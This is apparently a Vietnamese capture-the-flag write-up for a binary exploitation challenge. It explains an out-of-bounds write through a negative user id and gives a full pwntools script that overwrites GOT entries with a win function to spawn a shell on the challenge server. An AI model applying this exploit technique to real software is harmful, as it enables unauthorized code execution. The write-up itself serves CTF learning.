







# EASY

Bài cho ta 1 file [vuln](./chall/vuln)

## OVERLOOK

### Checksec



Ta chạy thử xem chương trình định làm gì :



Ta thấy chương trình cho ta lựa chọn tạo user và xem được user đã tạo.

## DETAIL


Chúng ta cùng phân tích chương trình trong ida nào

### IDA



Ở hàm main này ta không thấy có lỗi gì cả, chỉ tạo menu và điều hướng theo input của user



Ở hàm `input_player` ta thấy có lỗi out of bound, do `v1` là biến `int64` (4 byte) mà khi scanf lại nhập theo định dạng `%llu` vậy nên khi ta nhập số âm thì ta sẽ ghi đè được dữ liệu trước đó



Mình tìm thấy hàm `win` giúp ta tạo shell trong binary vậy nên hướng làm là ghi đè địa chỉ hàm `win` vào `got`



Vì mỗi `id` của `users` cách nhau `80 byte` vậy nên ta tính toán thì `id = -2` thì ta có thể ghi đè được got của hàm `system`. Tuy nhiên ta đang cần tạo shell bằng hàm `system`. 

Vì PIE tắt nên ta hoàn toàn có thể ghi đè lại địa chỉ hàm `system` và rồi ghi đè  `win --> printf`

### Solve script

```python

#!/usr/bin/python3

from pwn import *

exe = ELF('./vuln', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*0x00000000004013a3

        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('67.223.119.69',5000)
else:
    p = process([exe.path])
#GDB()

sla(b'create a user.',b'lam')
sla(b'Input your choice:',b'1')
sla(b'id:',b'-2')


payload = p64(0x401080)
payload += p64(exe.sym['win'])

sla(b' name:',payload)


p.interactive()


```

Ta remote với sever và nhận được flag: 



**FLAG**: `KCSC{ece40d68efa99180a5376c1badba3c8f8ee4964c1a7b7a1f96791dede279316a}`